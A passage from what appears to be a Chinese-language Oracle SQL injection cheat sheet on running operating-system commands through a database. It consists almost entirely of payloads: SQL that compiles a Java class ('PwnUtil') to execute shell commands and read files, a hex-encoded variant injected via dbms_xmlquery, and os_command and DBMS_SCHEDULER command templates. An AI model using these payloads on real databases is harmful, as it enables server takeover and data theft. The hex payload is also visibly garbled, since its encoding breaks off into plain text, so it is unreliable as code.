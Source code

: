 * 创建Java类

    ```sql
    BEGIN
    EXECUTE IMMEDIATE 'create or replace and compile java source named "PwnUtil" as import java.io.*; public class PwnUtil{ public static String runCmd(String args){ try{ BufferedReader myReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream()));String stemp, str = "";while ((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}} public static String readFile(String filename){ try{ BufferedReader myReader = new BufferedReader(new FileReader(filename));String stemp, str = "";while((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}}};';
    END;

    BEGIN
    EXECUTE IMMEDIATE 'create or replace function PwnUtilFunc(p_cmd in varchar2) return varchar2 as language java name ''PwnUtil.runCmd(java.lang.String) return String'';';
    END;

    -- hex编码的有效载荷
    SELECT TO_CHAR(dbms_xmlquery.getxml('declare PRAGMA AUTONOMOUS_TRANSACTION; begin execute immediate utl_raw.cast_to_varchar2(hextoraw(''637265617465206f72207265706c61636520616e6420636f6d70696c65206a61766120736f75726365206e616d6564202270776e7574696c2220617320696d706f7274206a6176612e696f2e*;public class pwnutil{public static String runCmd(String args){try{BufferedReader myReader=new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream()));String stemp,str="";while((stemp=myReader.readLine())!=null)str+=stemp+"\n";myReader.close();return str;}catch(Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader=new BufferedReader(new FileReader(filename));String stemp,str="";while((stemp=myReader.readLine())!=null)str+=stemp+"\n";myReader.close();return str;}catch(Exception e){return e.toString();}}};''));
    EXECUTE IMMEDIATE utl_raw.cast_to_varchar2(hextoraw(''637265617465206f72207265706c6163652066756e6374696f6e2050776e5574696c46756e6328705f636d6420696e207661726368617232292072657475726e207661726368617232206173206c616e6775616765206a617661206e616d65202770776e7574696c2e72756e286a6176612e6c616e672e537472696e67292072657475726e20537472696e67273b'')); end;')) results FROM dual
    ```

* 运行OS命令

    ```sql
    SELECT PwnUtilFunc('ping -c 4 localhost') FROM dual;
    ```

### 包os_command

```sql
SELECT os_command.exec_clob('<COMMAND>') cmd from dual
```

### DBMS_SCHEDULER任务

```sql
DBMS_SCHEDULER.CREATE_JOB (job_name => 'exec', job_type => 'EXECUTABLE', job_action => '<COMMAND>', enabled => TRUE)
```

## OracleSQL文件操作
